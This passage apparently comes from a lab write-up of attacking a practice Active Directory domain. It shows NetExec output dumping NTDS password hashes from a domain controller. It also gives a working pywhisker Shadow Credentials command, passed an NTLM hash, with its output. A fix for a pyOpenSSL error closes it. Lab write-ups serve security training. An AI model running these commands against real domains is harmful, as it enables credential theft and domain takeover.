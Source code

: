 ```
SMB         10.2.10.10      445    KINGSLANDING     KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:de1956f4d589614b4f90f7f1d445ab23:::
SMB         10.2.10.10      445    KINGSLANDING     intruder$:1124:aad3b435b51404eeaad3b435b51404ee:822ef4ccdf4e41c8d749b9c766e36b02:::
SMB         10.2.10.10      445    KINGSLANDING     NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:1a9fa36e47adf4e38aadca283cc7b499:::
SMB         10.2.10.10      445    KINGSLANDING     ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:e856402d05ac62577da64cf56f95bd69:::
SMB         10.2.10.10      445    KINGSLANDING     [+] Dumped 19 NTDS hashes to /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_125810.ntds of which 15 were added to the database
SMB         10.2.10.10      445    KINGSLANDING     [*] To extract only enabled accounts from the output file, run the following command:
SMB         10.2.10.10      445    KINGSLANDING     [*] cat /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_125810.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.2.10.10      445    KINGSLANDING     [*] grep -iv disabled /home/kali/.nxc/logs/KINGSLANDING_10.2.10.10_2024-08-16_125810.ntds | cut -d ':' -f1
```

Voila! Environment pwned via an intended method!

### Shadow Credentials Exploitation

Shadow credential path is slightly less complicated as I did not necessarily need a machine account to perform the attack.

With this attack, we are dealing with the PKI infrastructure, so there are some requirements prior to this attack being viable. Mainly, PKINIT needs to be supported, DC running 2016+, ADCS/CA present in the domain. Well, we know that the KINGSLANDING DC is also an ADCS server, so that checks out, and we also know that the server is running Server 2019 because Netexec told us so before. So I should be good to proceed.

To exploit this configuration, I needed Whisker, or rather [Pywhisker](https://github.com/ShutdownRepo/pywhisker.git) since I am on Linux. This command generated a certificate for me to use for authentication along with a password (returned within the output of the command).

```
# python3 pywhisker.py -d essos.local -u daenerys.targaryen -H 34534854d33b398b66684072224bb47a --target "KINGSLANDING$" -td SEVENKINGDOMS.LOCAL --action add --dc-ip 10.2.10.10 --filename cert

[*] Searching for the target account
[*] Target user found: CN=KINGSLANDING,OU=Domain Controllers,DC=sevenkingdoms,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 1b5a45bf-ba8e-14ee-414c-446a2815ced6
[*] Updating the msDS-KeyCredentialLink attribute of KINGSLANDING$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: cert.pfx
[*] Must be used with password: sc9toXJDPxoTeLNnXUoh
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

<br>
<div style="background-color: #F0C4B49C; padding: 5px; border-radius: 10px">
	<p style="color: #000000">
		If you run into an issue where Pywhisker spits out an error stating module 'OpenSSL.crypto' has no attribute 'PKCS12' simply run the following.
        <br>
        <pre><code>pip3 uninstall pyOpenSSL
pip3 install pyOpenSSL==22.1.0</code></pre>
    </p>
</div>
<br>
